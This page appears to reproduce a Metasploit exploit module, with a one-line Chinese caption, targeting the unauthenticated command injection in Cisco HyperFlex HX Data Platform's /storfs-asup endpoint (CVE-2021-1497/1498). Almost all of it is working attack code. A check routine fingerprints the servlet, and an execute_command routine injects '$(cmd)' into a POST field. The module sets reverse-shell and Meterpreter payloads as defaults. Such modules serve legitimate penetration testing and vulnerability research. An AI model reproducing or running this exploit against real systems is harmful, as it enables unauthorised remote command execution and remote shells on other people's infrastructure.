 <languages />

MSF
---

<translate> 以 Tomcat 用戶身份執行 shell 命令。 </translate>

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::CmdStager

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Cisco HyperFlex HX Data Platform Command Execution',
            'Description' => %q{
              This module exploits an unauthenticated command injection in Cisco
              HyperFlex HX Data Platform's /storfs-asup endpoint to execute shell
              commands as the Tomcat user.
            },
            'Author' => [
              'Nikita Abramov', # Discovery
              'Mikhail Klyuchnikov', # Discovery
              'wvu' # Analysis and exploit
            ],
            'References' => [
              ['CVE', '2021-1497'], # HyperFlex HX Data Platform Installer
              ['CVE', '2021-1498'], # HyperFlex HX Data Platform
              ['URL', 'https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-hyperflex-rce-TjjNrkpR'],
              ['URL', 'https://attackerkb.com/assessments/4f532147-b27b-4079-aed1-5cfdc402cf5c'],
              ['URL', 'https://twitter.com/ptswarm/status/1390300625129201664']
            ],
            'DisclosureDate' => '2021-05-05',
            'License' => MSF_LICENSE,
            'Platform' => ['unix', 'linux'],
            'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
            'Privileged' => false, # Privesc left as an exercise for the reader
            'Targets' => [
              [
                'Unix Command',
                {
                  'Platform' => 'unix',
                  'Arch' => ARCH_CMD,
                  'Type' => :unix_cmd,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/unix/reverse_python_ssl'
                  }
                }
              ],
              [
                'Linux Dropper',
                {
                  'Platform' => 'linux',
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :linux_dropper,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp'
                  }
                }
              ]
            ],
            'DefaultTarget' => 0,
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
            }
          )
        )

        register_options([
          OptString.new('TARGETURI', [true, 'Base path', '/'])
        ])

        register_advanced_options([
          OptFloat.new('CmdExecTimeout', [true, 'Command execution timeout', 3.5])
        ])
      end

      def check
        res = send_request_cgi(
          'method' => %w[GET POST].sample,
          'uri' => normalize_uri(target_uri.path, 'storfs-asup')
        )

        return CheckCode::Unknown unless res

        unless res.code == 200 &&
               res.body.include?('Action for the servlet need be specified.')
          return CheckCode::Safe
        end

        CheckCode::Vulnerable('Storfs ASUP servlet detected.')
      end

      def exploit
        print_status("Selected #{payload_instance.refname} (#{target.name})")

        case target['Type']
        when :unix_cmd
          execute_command(payload.encoded)
        when :linux_dropper
          execute_cmdstager
        end
      end

      def execute_command(cmd, _opts = {})
        print_status("Executing command: #{cmd}")

        res = send_request_cgi({
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, 'storfs-asup'),
          'vars_post' => {
            'action' => Faker::Hacker.verb,
            %w[token mode].sample => "$(#{cmd})"
          }
        }, datastore['CmdExecTimeout'])

        unless res
          print_warning('Command execution timed out')
          return
        end

        unless res.code == 200
          fail_with(Failure::PayloadFailed, 'Failed to execute command')
        end

        print_good('Successfully executed command')
      end

    end